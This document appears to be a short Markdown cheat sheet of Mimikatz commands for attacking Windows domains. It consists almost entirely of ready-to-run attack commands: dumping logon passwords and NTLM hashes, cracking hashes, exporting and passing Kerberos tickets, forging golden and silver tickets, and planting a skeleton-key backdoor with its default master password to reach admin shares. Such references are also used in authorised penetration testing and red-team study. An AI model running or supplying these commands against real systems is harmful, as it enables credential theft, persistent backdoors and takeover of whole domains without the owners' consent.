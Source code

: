 # mimikatz

* [PowerShellMafia/PowerSploit/Exfiltration/Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

## check

```bash
privilege::debug
# Privilege '20' OK => Working properly
```

## dump password / hashes

```bash
# dump logon users pass
sekurlsa::logonpasswords

# dump hashes
lsadump::lsa [/inject | /patch]
# hashcat -m 1000 <hash>
```

## elevate shell integrity

```bash
# use when using evil-winrm, we get medium integrity shells
token::elevate
```

## Pass-the-ticket

```bash
# exports all .kirbi to current directory
sekurlsa::tickets /export

# PTT using admin .kirbi 
kerberos::ptt TICKET

# to check if ticket is working
> klist
```

## Golden / Silver Ticket

```bash
# dump hash and SID
lsadump::lsa /inject /name: [krbtgt | DOMAIN_ADMIN_ACCOUNT | SERVICE_ACCOUNT] 

# create golden ticket and pass-the-ticket
kerberos::golden /user:Administrator /domain:DOMAIN /sid:SID /krbtgt:KRBTGT_NTLM_HASH /id:500 /ptt
# create silver ticket and pass-the-ticket
kerberos::golden /user:<USER> /domain:DOMAINM /sid:SID /krbtgt:SERVICE_NTLM_hash /id:1103 /ptt

# check
misc::cmd
dir \\IP\c$ [/user:USER PASS]
PsExec.exe \\IP cmd.exe

```

## kerberos Skeleton Key

```bash
misc::skeleton

# done, now accessing admin share
> net use C:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
> dir \\Desktop-1\c$ /user:Machine1 mimikatz
```